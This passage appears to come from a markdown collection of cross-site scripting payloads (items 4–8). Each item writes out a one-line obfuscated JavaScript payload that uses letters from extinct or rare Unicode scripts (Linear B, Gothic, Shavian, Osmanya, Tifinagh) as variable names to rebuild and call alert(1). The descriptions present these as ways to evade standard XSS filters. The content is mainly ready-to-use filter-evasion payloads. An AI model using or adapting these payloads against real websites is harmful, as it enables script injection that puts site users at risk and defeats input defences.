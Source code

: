 ### 4. Linear B-Based Payload
Linear B is a syllabic script used for writing Mycenaean Greek (Unicode block U+10000–U+1007F), an ancient and extinct writing system.

```
𐀀='',𐀐=!𐀀+𐀀,𐀒=!𐀐+𐀀,𐀔=𐀀+{},𐀖=𐀐[𐀀++],𐀘=𐀐[𐀙=𐀀],𐀚=++𐀙+𐀀,𐀛=𐀔[𐀙+𐀚],𐀐[𐀛+=𐀔[𐀀]+(𐀐.𐀒+𐀔)[𐀀]+𐀒[𐀚]+𐀖+𐀘+𐀐[𐀙]+𐀛+𐀖+𐀔[𐀀]+𐀘][𐀛](𐀒[𐀀]+𐀒[𐀙]+𐀐[𐀚]+𐀘+𐀖+"(𐀀)")()
```

- **Description**: This payload uses Linear B syllabograms to encode an XSS payload, making it highly obscure and challenging for standard XSS filters.

### 5. Gothic-Based Payload
The Gothic alphabet, used by the Goths in the 4th century (Unicode block U+10330–U+1034F), is another dead script suitable for obfuscation.

```
𐌰='',𐌱=!𐌰+𐌰,𐌲=!𐌱+𐌰,𐌳=𐌰+{},𐌴=𐌱[𐌰++],𐌵=𐌱[𐌶=𐌰],𐌷=++𐌶+𐌰,𐌸=𐌳[𐌶+𐌷],𐌱[𐌸+=𐌳[𐌰]+(𐌱.𐌲+𐌳)[𐌰]+𐌲[𐌷]+𐌴+𐌵+𐌱[𐌶]+𐌸+𐌴+𐌳[𐌰]+𐌵][𐌸](𐌲[𐌰]+𐌲[𐌶]+𐌱[𐌷]+𐌵+𐌴+"(𐌰)")()
```

- **Description**: This payload employs the Gothic alphabet to execute `alert(1)`, leveraging an extinct script for obfuscation.

### 6. Shavian-Based Payload
The Shavian alphabet (Unicode block U+10450–U+1047F) was created as an alternative script for English in the 1960s, inspired by George Bernard Shaw. It is rarely used today.

```
𐑀='',𐑁=!𐑀+𐑀,𐑂=!𐑁+𐑀,𐑃=𐑀+{},𐑄=𐑁[𐑀++],𐑅=𐑁[𐑆=𐑀],𐑇=++𐑆+𐑀,𐑈=𐑃[𐑆+𐑇],𐑁[𐑈+=𐑃[𐑀]+(𐑁.𐑂+𐑃)[𐑀]+𐑂[𐑇]+𐑄+𐑅+𐑁[𐑆]+𐑈+𐑄+𐑃[𐑀]+𐑅][𐑈](𐑂[𐑀]+𐑂[𐑆]+𐑁[𐑇]+𐑅+𐑄+"(𐑀)")()
```

- **Description**: This payload uses the Shavian script, an artificial alphabet designed for phonetic English, to encode an XSS payload. Its obscurity makes it unlikely to be recognized by standard XSS filters.


### 7. Osmanya-Based Payload
Osmanya (Unicode block U+10480–U+104AF) is a script created in the 1920s for the Somali language, now largely replaced by the Latin alphabet.

```
𐒀='',𐒁=!𐒀+𐒀,𐒂=!𐒁+𐒀,𐒃=𐒀+{},𐒄=𐒁[𐒀++],𐒅=𐒁[𐒆=𐒀],𐒇=++𐒆+𐒀,𐒈=𐒃[𐒆+𐒇],𐒁[𐒈+=𐒃[𐒀]+(𐒁.𐒂+𐒃)[𐒀]+𐒂[𐒇]+𐒄+𐒅+𐒁[𐒆]+𐒈+𐒄+𐒃[𐒀]+𐒅][𐒈](𐒂[𐒀]+𐒂[𐒆]+𐒁[𐒇]+𐒅+𐒄+"(𐒀)")()
```

- **Description**: This payload uses the Osmanya script, a rare and nearly forgotten writing system, to obfuscate an XSS payload that triggers `alert(1)`.

### 8. Tifinagh-Based Payload
Tifinagh (Unicode block U+2D30–U+2D7F) is a script used by the Berber people in North Africa, with modern and ancient variants, but still relatively obscure.

```
ⴰ='',ⴱ=!ⴰ+ⴰ,ⴲ=!ⴱ+ⴰ,ⴳ=ⴰ+{},ⴴ=ⴱ[ⴰ++],ⴵ=ⴱ[ⴶ=ⴰ],ⴷ=++ⴶ+ⴰ,ⴸ=ⴳ[ⴶ+ⴷ],ⴱ[ⴸ+=ⴳ[ⴰ]+(ⴱ.ⴲ+ⴳ)[ⴰ]+ⴲ[ⴷ]+ⴴ+ⴵ+ⴱ[ⴶ]+ⴸ+ⴴ+ⴳ[ⴰ]+ⴵ][ⴸ](ⴲ[ⴰ]+ⴲ[ⴶ]+ⴱ[ⴷ]+ⴵ+ⴴ+"(ⴰ)")()
```

